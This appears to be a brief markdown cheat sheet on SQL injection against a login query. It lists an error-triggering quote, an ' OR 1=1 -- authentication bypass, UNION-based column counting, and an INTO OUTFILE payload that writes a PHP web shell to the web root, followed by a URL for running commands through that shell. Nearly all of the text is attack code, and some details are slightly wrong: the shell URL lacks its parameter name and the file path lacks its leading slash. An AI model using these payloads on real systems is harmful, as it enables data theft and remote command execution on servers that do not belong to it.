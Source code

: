 # SQL Injection

* Cause Error on the Web Application by input quote '

```
SELECT * FROM users WHERE username = ''' AND password = ''

```





* Data Exfiltration by input ' OR 1=1 --



```
SELECT * FROM users WHERE username = '' OR 1=1--' AND password = ''

```

* Gaining Shell

First check the number of column with NULL or 1



```
SELECT * FROM users WHERE username = 'a' UNION SELECT NULL, NULL; --' AND password = ''
```

Use the INTO FILE to create a php file in the web server

```
SELECT * FROM users WHERE username = 'a' 
UNION SELECT “<? system($_REQUEST[‘cmd’]); ?>”, NULL INTO OUTFILE 'var/www/cmd.php';--' AND password = ''
```

Access the web page 



```
http://yourIPaddress/cmd.php?=[command]
```









